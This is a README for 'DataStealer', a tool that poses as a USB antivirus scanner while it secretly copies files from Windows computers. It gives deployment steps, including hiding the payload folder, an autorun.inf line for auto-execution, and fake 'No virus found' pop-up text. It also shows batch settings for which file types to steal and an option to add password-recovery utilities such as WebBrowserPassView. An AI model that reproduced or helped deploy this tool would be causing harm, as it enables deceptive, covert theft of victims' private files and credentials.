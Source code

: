 # DataStealer

## Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration
You can change diferents values in **run.bat**.

**Add or remove formats of steal files**
>set formats=*.jpg *.png *.mp4 *.3gp *.wav

**Enable or disable messages**
>set msg1=**true / false** [DEFAULT TRUE]
>
>set msg2=**true / false** [DEFAULT TRUE]
>
>set msg1text=Analyzing USB device for searching virus. [WINDOWS TEXT]
>
>set msg2text=No virus found. [WINDOWS TEXT]

**Enable or disable file theft and sizes (kilobyte)**
>set stealfiles=**true / false** [DEFAULT TRUE]
>
>set sizemax=**50000**
>
>set sizemin=**100**

**Enable or disable Nirsoft software**
>set nirsoft=**true / false** [DEFAULT FALSE]
>
>set soft=**[names of Nirsoft software files]** [DEFAULT EMPTY]

**NirSoft** web site provides a unique collection of **small and useful freeware utilities**, all of them developed by **Nir Sofer**. Go to **[nirsoft.net](www.nirsoft.net)**, download software and put in "data/soft/" folder. Later add names in value with spaces.

***Example:***
>set soft=**SkypeLogView WebBrowserPassView ...**

### Folders (Advanced Users)
If you want you can add lines with more folders in **"run.bat"** for gather information.

***Like this:***
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%formats%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")

Replace **"%userprofile%\Pictures\"** for any folder from Windows.
